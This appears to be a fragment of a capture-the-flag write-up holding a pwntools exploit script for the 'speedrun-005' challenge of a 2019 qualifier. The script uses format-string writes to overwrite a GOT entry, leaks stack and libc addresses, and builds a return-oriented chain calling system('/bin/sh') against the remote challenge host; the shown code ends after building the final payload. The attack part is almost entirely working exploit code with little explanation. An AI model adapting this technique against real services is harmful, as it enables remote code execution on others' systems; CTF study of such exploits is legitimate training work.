 ```python
				value=value>>8
				idx+=1
	return part1.ljust(space,"\x00")+part2

```



## exp
```python
import fmtcraft
import time
from pwn import *
context.arch='amd64'
context.log_level='debug'
def cal(a,b):
	if (a-b)>0:
		return a-b
	else:
		return a-b+0x10000
def setvalue(address,value):
	p1=value&0xffff
	p2=(value&0xffff0000)>>16
	p3=(value&0xffffffff00000000)>>32
	pay="%{}c%{}$hn%{}c%{}$hn%{}c%{}$hn".format(p1,39,cal(p2,p1),40,cal(p3,p2),38).ljust(0x100,'\x00')+p64(address+4)+p64(address)+p64(address+2)
	p.sendlineafter("? ",pay)


libc=ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
exp=1
local=0
if local:
	ret=0x0000000004007e4
	rdi=0x0000000004007E3
	got=0x000000000601018
	reuse=0x69d
	p=process('./speedrun-005')
else:
	ret=0x0000000000400894
	rdi=0x0000000000400893
	got=0x000000000601020
	reuse=0x72d
	p=remote("speedrun-005.quals2019.oooverflow.io",31337)
if exp:
	pay="%{}$n%{}c%{}$hn%{}c%{}$hn|%1$p|%2$p|".format(38,0x40,40,reuse-0x40,39).ljust(0x100,'\x00')+p64(got+4)+p64(got)+p64(got+2)
	p.sendlineafter("? ",pay)
	p.readuntil("|")
	stack=int(p.readuntil("|")[:-1],16)
	base=int(p.readuntil("|")[:-1],16)-(0x7ffff7dd18c0-0x7ffff79e4000)
	log.info(hex(stack))
	log.info(hex(base))
	# set value
	libc.address=base
	aim=0x7fffffffdfa8-0x7fffffffb4f0+stack
	address=aim
	sh=libc.search('/bin/sh').next()
	sys=libc.sym['system']
	puts=libc.sym['puts']
	data = {aim:rdi,aim+8:sh,aim+0x10:ret,aim+0x18:sys,got:puts}
	pay=fmtcraft.fmtstr(6,data,space=0x200)
	#gdb.attach(p)
```